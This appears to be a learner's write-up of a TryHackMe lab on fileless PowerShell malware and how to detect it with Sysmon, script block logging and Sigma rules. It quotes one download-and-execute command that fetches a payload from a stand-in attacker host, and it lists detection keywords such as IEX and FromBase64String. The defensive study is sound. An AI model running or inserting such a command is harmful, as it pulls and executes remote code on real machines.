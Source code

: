 Scenario 1: Fileless Malware with PowerShell – Spear-phishing leads to a malicious PowerShell payload executing remotely
Room Used: TryHackMe – Windows PowerShell Basics
Link: https://tryhackme.com/room/powershellbasics

Objective:
The objective of this room was to understand how PowerShell can be abused by attackers to execute malicious commands directly in memory, making detection difficult. It aligns with real-world fileless malware attacks where the payload never touches disk and is executed via encoded or obfuscated PowerShell commands.

What I Did:

Explored PowerShell scripting and command-line execution using practical labs.

Simulated execution of obfuscated PowerShell payloads (e.g., Base64 encoded strings using Invoke-Expression).

Understood how attackers use PowerShell remoting to execute code on remote machines without dropping files.

Emulated techniques where commands are downloaded and executed via memory using:

powershell
Copy
Edit
iex (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')
Detection Strategy:

Enabled and monitored Sysmon Event ID 1 (Process Creation) to capture powershell.exe execution.

Looked for suspicious command-line flags like -EncodedCommand and keywords like IEX, FromBase64String.

Enabled PowerShell Script Block Logging (Event ID 4104) to detect hidden or obfuscated scripts executed in memory.

Created Sigma rule to flag base64 or encoded strings in PowerShell script block logs.

Tools Used:

Sysmon

ELK Stack (for visualization)

Sigma rules (custom rules for detecting encoded PowerShell commands)

PowerShell logging and Event Viewer

Conclusion:
This room effectively demonstrated how PowerShell can be used as a powerful tool for fileless attacks. Detecting such attacks requires deep monitoring of script execution in memory and careful analysis of command-line arguments. By simulating the same techniques used by APTs, I learned how to correlate PowerShell activity with malicious behavior and write detection rules accordingly.
